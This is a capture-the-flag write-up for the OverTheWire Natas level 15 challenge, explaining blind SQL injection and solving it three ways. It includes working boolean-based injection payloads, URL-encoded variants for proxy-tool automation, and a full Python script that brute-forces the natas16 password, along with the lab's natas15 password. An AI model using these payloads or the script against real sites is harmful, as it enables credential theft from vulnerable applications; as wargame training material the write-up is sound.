# 🕸️Natas Level 15 → Level 16

```
http://natas15.natas.labs.overthewire.org
```
Username: natas15  
Password: (natas15_password)



We checked the source code for any useful hints and only found an **SQL query** that verifies whether a user exists or not.


We tested it using `John` and `natas16`, and it returned either true or false depending on the input.






This captured `POST` request shows that when the user clicks the "Check Existence" button, a request is sent to `index.php` with the parameter `username=John`.


On the **server side**, the submitted value is passed into an **SQL query**, which checks whether the condition is `true` or `false` and then returns the corresponding *result*.



---

### 🕵️‍♂️❓ What is blind SQL injection? 

**Blind SQL Injection** is a subtype of SQL injection where an application is vulnerable to attacker-controlled input being embedded in SQL queries, but the application does not return database error messages or query results directly to the user. Instead, an attacker infers information about the database by observing side effects: differences in page content, response status, response time, or other observable behaviour.

Because the app doesn’t show query output, attackers must ask the database yes/no questions (boolean‑based) or observe timing differences (time‑based) to extract data slowly — hence the term blind.

---

### 📌 Two common techniques 
#### 1. Boolean‑based (content‑based) blind injection ✅❌

The attacker crafts input that makes the database evaluate a condition. The web app’s response will differ depending on whether the condition is true or false. By repeatedly testing conditions, the attacker can infer characters, schema details, etc., one bit at a time.

#### 2. Time‑based blind injection ⏳🕒

When the application doesn’t change content in a visible way, the attacker triggers operations that delay the database response if a condition is true (for example, forcing a long‑running operation inside a conditional). Observing whether the response is slow or fast reveals the condition’s truth value.

---
### Useful URL encoding

---

#### There are multiple ways to complete this challenge 🏁. Below I describe three straightforward approaches along with their respective advantages and disadvantages.  
#### 🐢 Method 1 — Manual testing  
#### 🐎 Method 2 — Web security testing tools  
#### 🐆 Method 3 — Python scripting  

---

### 🐢 Method 1 — Manual testing 

#### Finding The Password Length
🗄️Server side query
```
SELECT * from users where username="natas16" and (select length(password)=32 from users where username="natas16")#"
```
💉 Blind SQL injection code
```
natas16" and (select length(password)=32 from users where username="natas16")#
```


---

#### Finding The Password Value

🗄️ Server side query
```
SELECT * from users where username="natas16" AND password LIKE BINARY "a%" #"
```
💉 Blind SQL injection code
```
natas16" AND password LIKE BINARY "a%" #
```


**The advantage** of this approach is that it doesn’t require any special tools, but **the downside** is that it can take several hours—or even a full day—to retrieve a 32-character password.

---

### 🐎 Method 2 — Web security testing tools 

I use **CAIDO**, a tool similar to Burp Suite, but built in **Rust** for speed and reliability. Make sure to install **FoxyProxy** or **Proxy SwitchyOmega** and configure your proxy, or simply use CAIDO’s built-in web browser for convenience.

#### Finding The Password Length

URL decode
```
natas16" and (select length(password)=1 from users where username="natas16")#
```
URL encode
```
natas16%22+and+%28select+length%28password%29%3D1+from+users+where+username%3D%22natas16%22%29%23
```

After intercepting the **POST** request, send it to **Automate**. In Burp Suite, you can send it to **Intruder** for further testing.



Next, choose the positions in the request where you want to insert the payload, and then configure your payload accordingly. and then click **Run** to execute.



We noticed that the response for payload `32` has a different length compared to the other responses.



Check the HTML-rendered response and observe the output. Now we can determine the length of the password.

---

#### Finding The Password Value

URL decode
```
natas16" AND password LIKE BINARY "a%
```
URL encode
```
natas16%22+AND+password+LIKE+BINARY+%22a%25
```

After capturing the **POST** request, send it to Automate.



Next, select the positions in the request where you want to insert the payload, configure the payload, and then click Run to execute.


That will be the first character of the password



Next, add the discovered character to the query and run it again to identify the second character.



We have now identified the second character of the password.



Next, append the second character to the query and run it again to discover the third character.



As expected, we’ve uncovered the next character of the password.


Repeat the same process until all 32 characters of the password are discovered. This approach is similar to Method 1, but you only need to run it 32 times, saving a significant amount of time.



---

#### Finding The Password Value (creative way)

URL decode
```
natas16" and (select substring(password, 1, 1) from users where username="natas16") LIKE BINARY "a
```
URL encode
```
natas16%22+and+%28select+substring%28password%2C+1%2C+1%29+from+users+where+username%3D%22natas16%22%29+LIKE+BINARY+%22a
```

After intercepting the **POST** request, send the packet to **Automate**.



Choose the **Matrix** Attack option, which is equivalent to the **Cluster Bomb** attack in Burp Suite.



Set the first payload within a `substring` function to iterate through all 32 characters of the password.



Set the second payload to include all possible characters for the password ``(a–z, A–Z, 0–9)``, giving a total of `62` possibilities.



After sending all the requests, we filtered the responses by length and successfully retrieved the full `32-character` password.



This method has **many advantages**, such as automating repetitive tasks and offering a variety of useful features. The main **drawback** is that some features may be locked behind a paywall.
### 🐆 Method 3 — Python scripting  

Create a new Python file, paste the following code into it, and then save the file.
```
import requests

# Define the characters that may appear in the password
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Credentials for natas15
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

# Target URL
url = "http://natas15.natas.labs.overthewire.org"

# Start a session to persist cookies and headers across requests
session = requests.Session()

# This will store the discovered password characters
current_password = []

# Stop when full password 32 character long is discovered
while len(current_password) < 32:
    for character in characters:
        # Build the current guess
        guess = "".join(current_password) + character
        # print(f"Guessing with: {guess}") #verbose mode

        # SQL Injection Payload:
        # natas16" AND password LIKE BINARY "prefix%" #
        payload = f'natas16" AND password LIKE BINARY "{guess}%" #'

        # Send POST request with SQL injection payload
        response = session.post(
            url,
            data={"username": payload},
            auth=(username, password)
        )

        # Check for success message in the response
        if "This user exists." in response.text:
            current_password.append(character)  # Correct character found
            print("brute-forcing progress: " + "".join(current_password)) # printing progress
            break  # Go to the next character in the password


# Print the discovered password
print("Password Found: " + "".join(current_password))


```

Next, ensure that you change the file’s permissions to make it executable.
```
chmod +x SQL_blind.py
```


Run the **Python script** and grab a cup of coffee—by the time you return, it should be finished.



This approach has **advantages** over web security testing tools, such as faster execution and being free. However, the **downside** is that it requires the user to have strong coding skills.

### 📚 Recommended Actions for Deeper Understanding

💻 Learning More About SQL Injection:  
https://portswigger.net/web-security/sql-injection  
🎨 **Get Creative**: Try approaching it in different ways.  
⚡ **Experiment with Tools**: Attempt brute-forcing using different tools like Burp Suite.  
🦀 **Code Challenge**: Rewrite the Python script in Rust and test it.  


Flag secured! Ready for the next challenge?


